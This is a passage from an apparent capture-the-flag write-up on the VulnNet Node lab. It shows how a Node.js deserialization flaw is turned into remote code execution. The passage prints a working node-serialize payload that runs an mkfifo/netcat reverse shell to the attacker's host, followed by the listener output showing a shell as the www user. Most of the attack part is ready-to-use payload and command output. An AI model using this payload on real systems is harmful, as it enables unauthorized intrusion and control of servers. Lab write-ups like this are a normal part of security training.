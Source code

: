 We got the ping back → The payload works

# Gain Access

Modify the payload to insert a reverse shell inside

```
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.97.213 4444 >/tmp/f')}()","isGuest":false,"encoding": "utf-8"}
```

![Untitled](VulnNet_Node_images/Untitled%208.png)

Start the `Netcat Listener` and send the request

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.116.34] 51488
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(www) gid=1001(www) groups=1001(www)
$ whoami
www
```
